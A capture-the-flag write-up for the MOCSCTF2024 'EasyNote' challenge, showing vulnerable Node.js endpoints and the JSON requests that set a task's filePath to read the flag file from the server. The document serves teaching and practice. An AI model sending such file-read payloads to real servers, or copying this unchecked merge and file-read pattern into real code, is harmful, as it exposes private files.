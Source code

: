 # MOCSCTF2024 - EasyNote

- Write-Up Author: 菜鳥程序員1號 \[[菜鳥程序員1號](https://github.com/ian-ng)\]

- Flag: MOCSCTF{prot000000type_1s_Amazing_CH33lenge}

## Challenge Description:

>this is challenge description
>
>[file](./assets/easy nodes.js)
>
http://34.150.35.67:30302/

## Write up  
1. Open the website
- you will see only the text "Welcome my Task System seems it hasn't finished" on the website

2. Since nothing useful on the website link, we look into the provided js file
- you will see the following code
```javascript
app.post('/addTask', (req, res) => {
    const { id, description } = req.body;
    if (typeof id === 'string' && typeof description === 'string') {
        tasks[id] = { description };
        res.json({ status: 'success', message: 'Task added successfully' });
    } else {
        res.json({ status: 'error', message: 'Invalid task format' });
    }
    console.log("Current tasks:", tasks);
});
```
- the /addTask endpoint required two string parameters, ```id``` and ```description```
- I'm using Postman to send a POST request to the server with the following payload
```json
{
    "id": "1",
    "description": "hello world"
}
```
![img](./assets/img1.png)
- it show "Task updated successfully" as expected

3. We can see the remaining path in the js file
```javascript
app.post('/updateTask', (req, res) => {
    const { id, updates } = req.body;
    if (tasks.hasOwnProperty(id) && typeof updates === 'object') {
        tasks[id] = merge(tasks[id], updates);
        res.json({ status: 'success', message: 'Task updated successfully' });
    } else {
        res.json({ status: 'error', message: 'Invalid task or updates format' });
    }
    console.log("Updated tasks:", tasks);
});
app.post('/readFile', (req, res) => {
    const { id } = req.body;
    const task = tasks[id];
    if (task) {
        const filePath = task.filePath;
        if (filePath) {
            fs.readFile(filePath, 'utf8', (err, data) => {
                if (err) {
                    console.error('Error reading file:', err);
                    res.status(500).send('Error reading file');
                } else {
                    res.send(data);
                }
            });
        } else {
            res.status(400).send('No file path specified for this task');
        }
    } else {
        res.status(400).send('Invalid task ID');
    }
});
```
- the /updateTask endpoint required a string ```id``` and an object ```updates```
- and the /readFile endpoint will read the ```task.filePath``` and return the content of the file (probably the flag, so we guest the file path is "flag.txt")

4. using Postman to send a POST request to update the task
```json
{
    "id": "1",
    "updates": {
        "filePath": "flag.txt"
    }
}
```
![img](./assets/img2.png)

5. using Postman to send a POST request to read the file to see if the path is correct
```json
{
    "id": "1"
}
```
![img](./assets/img3.png)

6. Bingo! we got the flag `MOCSCTF{prot000000type_1s_Amazing_CH33lenge}`
